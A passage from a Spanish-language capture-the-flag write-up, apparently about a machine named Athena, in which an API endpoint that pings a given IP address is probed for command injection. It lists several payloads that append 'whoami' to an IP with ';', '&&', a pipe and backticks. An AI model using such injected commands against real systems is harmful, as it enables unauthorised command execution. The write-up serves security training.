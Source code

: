 Podemos observar que la funcionalidad el endpoint de la API consiste en ejecutar el comando ping con 4 mensajes eco Request ICMP y solo debemos proveerlo la dirrecion IP de un sistema.

## FASE GANAR ACCESSO O EXPLOTACION

Ahora probaremos diversos payloads para testear si este endpoint es vulnerable a Command Injection.

* 10.8.123.194 ; whoami

![](/assets/images/Athena/image012.png)

* 10.8.123.194 && whoami

![](/assets/images/Athena/image012.png)

* 10.8.123.194 `|` whoami

![](/assets/images/Athena/image012.png)

* 10.8.123.194 `whoami`

![](/assets/images/Athena/image013.png)
